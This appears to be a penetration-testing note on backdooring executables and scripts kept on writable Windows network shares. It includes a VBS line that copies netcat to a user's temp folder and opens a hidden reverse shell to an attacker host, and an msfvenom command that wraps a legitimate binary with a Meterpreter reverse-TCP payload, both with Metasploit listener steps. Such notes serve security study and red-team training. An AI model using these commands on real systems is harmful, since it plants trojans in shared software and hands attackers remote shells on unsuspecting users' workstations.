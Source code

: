 # Abusing writable shares

## Resources

1. `CreateObject` function

{% embed url="https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createobject-function" %}

2. `Run` method

{% embed url="https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp" %}

{% embed url="https://ss64.com/vb/run.html" %}

3. `copy`&#x20;

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/copy" %}

## Backdoor mechanism

It is quite common to find network shares that hosts executable or scripts created by the administrator, that users can use to perform daily tasks. This is useful  for users since they can execute the shared resource without copying or installing it.&#x20;

Whenever a user opens the shortcut on their workstation, the executable or script will be copied from the server to the local `%temp%` folder, where it will be executed. Thus, any payload will run in the context of the final user's workstation and logged-in user account.

If the share is writable by anyone (or at least our compromised account), we can abuse this to create a backdoor.

### (1) Backdoor via `.vbs` scripts

Given that we have found a VBS (`.vbs` ) script running hosted on the share, we can inject a malicious code into script to provide ourselves with a backdoor.

**Step 1**

First, we have to upload a binary (such as `nc64.exe` ) that will aid us in creating the backdoor. This can be achieved using [smbclient](https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient).

**Step 2**

Next, we can inject the malicious in the existing script. Assuming that the writable share is at `\\TARGET_IP\writable_share` .

{% code overflow="wrap" %}
```visual-basic
CreateObject("WScript.Shell").Run "cmd.exe /c copy /y \\TARGET_IP\writable_share\nc64.exe %temp% & %temp%\nc64.exe -e cnd.exe ATTACKER_IP PORT", 0, True
```
{% endcode %}

Essentially, this command executes a command using  `cmd.exe` which calls the `copy` command to copy the uploaded `nc64.exe` binary (uploaded to share) to the `%temp%` directory, before executing a reverse shell that provides us a backdoor to the system.

* the `/y` flag provided to `copy` means

> Suppresses prompting to confirm that you want to overwrite an existing destination file.

According to this [page](https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp), the following describes the last 2 values provided to the `Run` method:

* `intWindowStyle`

> Optional. Integer value indicating the appearance of the program's window. Note that not all programs make use of this information.

value of `0` : "Hides the window and activates another window."

* `bWaitOnReturn`

> Optional. Boolean value indicating whether the script should wait for the program to finish executing before continuing to the next statement in your script.&#x20;

If set to `True` , script execution halts until the program finishes.

**Step 3**

Finally, we have to start a listener using the `exploit/multi/handler` from Metasploit. Now, we will gain a remote shell on a user's desktop whenever someone executes this script.

### (2) Backdoor via `.exe` files

Given that we have found a Windows binary such as an `.exe` file, we can download it from the share and use `msfvenom` to inject a backdoor functionality. The result is a binary that still fulfils its original purpose, but execute an additional payload silently.

**Step 1**

We can use the downloaded binary as a template to create a new malicious binary (suppose the binary is named `vuln.exe`):

{% code overflow="wrap" %}
```sh
$ msfvenom --platform windows -x vuln.exe -k -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -b "\x00" -f exe -o mal_vuln.exe
```
{% endcode %}

**Step 2**

Finally, we have to start a listener using the `exploit/multi/handler` from Metasploit. Now, whenever someone executes this script, we will gain a remote shell on that user's desktop. Now, we will gain a remote shell on a user's desktop whenever someone executes the binary.

